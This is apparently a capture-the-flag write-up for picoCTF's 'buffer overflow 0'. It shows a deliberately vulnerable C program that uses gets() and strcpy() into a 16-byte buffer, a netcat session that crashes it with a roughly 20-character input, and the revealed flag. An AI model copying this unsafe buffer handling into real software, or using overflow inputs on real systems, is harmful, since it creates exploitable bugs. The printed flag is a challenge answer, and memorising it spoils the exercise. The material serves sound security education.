 # Stonks

# babygame01

# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

Here, we have a simple piece of C code that we need to overflow. The relevant code is this

```
#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
printf("%s\n", flag);
fflush(stdout);
exit(1);
}

void vuln(char *input){
char buf2[16];
strcpy(buf2, input);
}

int main(int argc, char **argv){

FILE *f = fopen("flag.txt","r");
if (f == NULL) {
printf("%s %s", "Please create 'flag.txt' in this directory with your",
"own debugging flag.\n");
exit(0);
}

fgets(flag,FLAGSIZE_MAX,f);
signal(SIGSEGV, sigsegv_handler); // Set up signal handler

gid_t gid = getegid();
setresgid(gid, gid, gid);


printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
}
```

Here, an input of just over 20 characters is enough for it to overflow and give us the flag.

```
~ $ nc saturn.picoctf.net 64712
Input: gbBPmxz01LIlqUWhRTPD
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
